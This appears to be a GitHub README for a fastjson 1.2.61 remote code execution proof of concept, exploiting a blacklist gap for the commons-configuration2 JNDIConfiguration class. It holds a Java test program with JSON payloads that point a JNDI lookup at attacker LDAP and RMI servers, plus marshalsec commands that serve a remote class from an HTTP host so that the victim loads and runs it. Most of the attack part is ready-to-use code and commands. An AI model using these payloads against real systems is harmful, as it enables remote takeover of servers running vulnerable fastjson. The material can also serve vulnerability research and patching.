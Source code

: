 # fastjson-1.2.61-RCE

## Ps：
官方在https://github.com/alibaba/fastjson/blob/master/src/main/java/com/alibaba/fastjson/parser/ParserConfig.java z中，将0x7bddd363ad3998c6L
（即1.2.61	8925522461579647174	0x7bddd363ad3998c6L	org.apache.commons.configuration.JNDIConfiguration）加入黑名单，但是未将org.apache.commons.configuration2.JNDIConfiguration加入黑名单，导致1.2.60 bypass.


![](./Fastjson-1.2.61-RCE.gif)

## FastJsonTest.java
```
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.alibaba.fastjson.parser.ParserConfig;

public class FastJsonTest {
    public static void main(String[] args){
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String jsonStr1 = "{\"@type\":\"org.apache.commons.configuration2.JNDIConfiguration\",\"prefix\":\"ldap://10.10.20.166:1389/ExportObject\"}";
        String jsonStr2 = "{\"@type\":\"org.apache.commons.configuration2.JNDIConfiguration\",\"prefix\":\"rmi://10.10.20.166:1099/ExportObject\"}";

        JSONObject json = JSON.parseObject(jsonStr2);
        json.toJSONString();
    }
}

//        fastjson 1.2.60
//        String jsonStr2 = "{\"@type\":\"org.apache.commons.configuration.JNDIConfiguration\",\"prefix\":\"ldap://10.10.20.166:1389/ExportObject\"}";
```
## LDAP PORT 1389

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.2.18:8000/#ExportObject`

## RMI PORT 1099

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://192.168.2.18:8000/#ExportObject`

![](./fastjson_1_2_61.jpg)

## diff poc

```
1.2.60 
org.apache.commons.configuration.JNDIConfiguration
>>>commons-configuration-1.4.jar


1.2.61
org.apache.commons.configuration2.JNDIConfiguration
>>>commons-configuration2-2.0.jar
```

## 参考链接
https://mp.weixin.qq.com/s/PHB3dBgvDGdqPhhB1dFfNA

https://github.com/LeadroyaL/fastjson-blacklist

https://github.com/alibaba/fastjson/blob/master/src/main/java/com/alibaba/fastjson/parser/ParserConfig.java


